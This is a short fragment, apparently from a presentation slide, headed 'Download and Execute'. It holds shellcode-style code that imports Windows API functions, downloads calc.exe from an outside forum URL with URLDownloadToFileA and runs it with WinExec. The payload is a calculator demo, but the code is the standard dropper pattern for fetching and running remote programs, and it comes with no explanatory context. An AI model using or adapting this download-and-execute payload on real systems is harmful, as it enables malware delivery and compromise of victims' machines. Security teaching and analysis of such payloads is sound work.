

# Download and Execute
function URLDownloadToFileA("urlmon.dll");
function WinExec("kernel32.dll");
function ExitProcess("kernel32.dll");

URLDownloadToFileA(0,"https://rstforums.com/fisiere/calc.exe","calc.exe",0,0);
WinExec("calc.exe",0);
ExitProcess(0);